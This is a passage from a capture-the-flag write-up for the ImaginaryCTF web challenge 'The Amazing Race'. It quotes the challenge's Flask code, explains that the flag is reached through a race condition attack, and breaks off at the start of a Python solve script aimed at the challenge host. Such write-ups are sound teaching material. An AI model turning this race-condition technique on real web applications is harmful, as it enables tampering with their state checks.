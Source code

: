 Flag: `ictf{seems_like_you_broke_it_pretty_bad_76a87694}`

### The Amazing Race

![image](https://hackmd.io/_uploads/ByuAwkcu0.png)

To get the source code, we need to hit the following endpoints:

```
maze.py    = /maze
app.py     = /source
Dockerfile = /docker
```

It took me a while to understand the code, but atleast we know how to get the flag. From `app.py`, the `solved` variable will be use to determine if we can get the flag or not

```python
MAZE_SIZE = 35

@app.route("/<mazeId>")
def index(mazeId):
    if not mazeId:
        return redirect(f"/{createMaze()}")
    # if our maze ID location equal to this value we can get the flag
    # getloc(mazeId) == (34,34)
    solved=getLoc(mazeId) == (MAZE_SIZE-1, MAZE_SIZE-1)
    return render_template("maze.html", 
        maze=getMaze(mazeId), 
        mazeId=mazeId,
        flag=open("flag.txt").read() if solved else ""
    )
```

But looking at the maze page, we probably need to find a way to get into **F**.

![image](https://hackmd.io/_uploads/S1JBsk9_C.png)

The neighbour of **F** will be sets to `#`.

```python 
def gen(self):
    ...
    self.set(*([self.size-1]*self.dim), val='F')
    for i in self.neighbors(*([self.size-1]*self.dim)):
        self.set(*i, val='#')
```

I tried to solve the maze using `python` but actually that's not the right path because of the above restrictions :') Thanks [@vicevirus](https://vicevirus.github.io/) and [@zx](#) for finding the right path! It's related to race condition attack.

```python 
import sys,requests,threading
from bs4 import BeautifulSoup as bs
import time

# Global Variables
TARGET = "http://the-amazing-race.chal.imaginaryctf.org/"
TARGET_MOVE = "http://the-amazing-race.chal.imaginaryctf.org/move"
MAZE_ID = ""

# Function : getMaze()
def getMaze():
    resp = requests.get(TARGET,verify=False)
    soup=bs(resp.text, 'html.parser')
    maze = soup.find('code').text.strip()
    mazeid = resp.url.split("/")[-1]
```